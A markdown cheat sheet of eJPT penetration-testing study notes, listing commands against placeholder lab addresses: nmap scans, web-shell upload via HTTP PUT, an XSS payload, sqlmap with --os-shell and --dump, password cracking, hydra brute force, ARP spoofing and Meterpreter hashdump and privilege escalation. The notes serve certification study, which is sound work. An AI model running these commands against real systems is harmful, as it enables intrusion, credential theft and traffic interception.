## eJPT Notes
**This notes will guide you through all the tools which are given in the official eJPT material. Make sure to replace the ip addresses and port numbers when you use it**

------------
**Routing**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ip route add ROUTETO via ROUTEFROM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**whois**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
whois site.com
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Ping Sweep**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
fping -a -g 10.10.10.0/24 2>/dev/null
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sn 10.10.10.0/24
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Nmap Scans**
**OS Detection**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -Pn -O 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (Quick)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (Full)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV -p- 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (UDP Quick)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sU -sV 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------


**Banner Grabbing**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**OpenSSL for HTTPS services**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Httprint**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**HTTP Verbs**
GET, POST, HEAD, PUT, DELETE, OPTIONS
Use the OPTIONS verb to see what other verbs are available
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc 10.10.10.10 80
OPTIONS / HTPP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You can use HTTP verbs to upload a php shell. Find the content length, then use PUT to upload the shell. Make sure you include the size of the payload when using the PUT command.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
wc -m shell.php
x shell.php


PUT /shell.php
Content-type: text/html
Content-length: x
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------


**Directory and File Scanning**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dirsearch.py -u http://10.10.10.10 -e *
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dirb http://10.10.10.10/ -u username:pass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Advanced Google Searches**
`site:`
`intitle:`
`inurl:`
`filetype:`
`AND, OR, &, |, -`

------------


**Cross Site Scripting (XSS)**
Steps:
1. Find a reflection point
2. Test with `<i>` tag
3. Test with HTML/JavaScript code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<script>alert(1)</script>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Reflected XSS:**
Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload
**Persistent XSS:**
Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post

------------


**SQLMap**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 -p parameter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 --os-shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 --dump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------

**Password Attacks**
Unshadow
This prepares a file for use with John the Ripper

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
unshadow passwd shadow > unshadow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Hash Cracking**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
john -wordlist /path/to/wordlist -users=users.txt hashfile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Network Attacks**
**Brute Forcing with Hydra**
replace ‘ssh’ with any relevant service

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L users.txt -P pass.txt telnet://10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Windows Shares Using Null sessions**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmblookup -A 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**List shares**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L //10.10.10.10 -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Mount share:**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient //10.10.10.10/share -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
enum4linux -a 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**ARP spoofing**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo 1 > /proc/sys/net/ipv4/ip_forward
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Metasploit**
Basic Metasploit Commands

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Meterpreter**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
background

sessions -l

sessions -i 1

sysinfo, ifconfig, route, getuid

getsystem (privesc)

bypassuac

download x /root/

upload x C:\\Windows

shell

use post/windows/gather/hashdump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


